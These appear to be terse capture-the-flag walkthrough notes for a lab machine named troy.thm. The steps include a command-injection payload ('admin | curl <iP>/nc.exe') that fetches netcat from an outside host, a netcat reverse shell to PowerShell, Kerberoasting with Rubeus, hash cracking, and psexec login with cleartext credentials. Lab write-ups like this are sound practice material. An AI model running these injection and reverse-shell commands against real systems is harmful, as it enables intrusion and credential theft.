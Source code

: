 Open website, create account, change password, block script.js, refresh

upload nc.exe with "admin | curl <iP>/nc.exe" and use nc.exe with -e powershell to get reverse shell

curl rubeus on machine, ./r1.exe kerberoast /nowrap

dump hash and crack with 13100 \\remove @troy

connect with 
	python3 psexec.py troy.thm/achilles:winniethepooh@10.10.45.92 to get nt system